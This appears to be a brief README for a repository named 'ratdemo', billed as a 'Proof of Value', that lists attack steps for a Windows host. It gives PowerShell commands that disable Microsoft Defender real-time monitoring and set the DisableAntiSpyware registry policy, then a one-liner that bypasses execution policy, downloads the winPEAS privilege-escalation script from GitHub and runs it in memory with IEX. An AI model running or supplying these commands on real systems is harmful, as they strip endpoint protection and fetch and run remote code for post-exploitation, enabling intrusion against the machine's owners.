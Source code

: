 # ratdemo
Proof of Value

Disable Microsoft Defender

Set-MpPreference -DisableRealtimeMonitoring $true
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force




1. Downloading the winPEAS.ps1 script from its GitHub repository.
2. Executing that script immediately. Run the following script.
   
powershell -Exec ByPass -NoProfile -c "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1') | IEX"
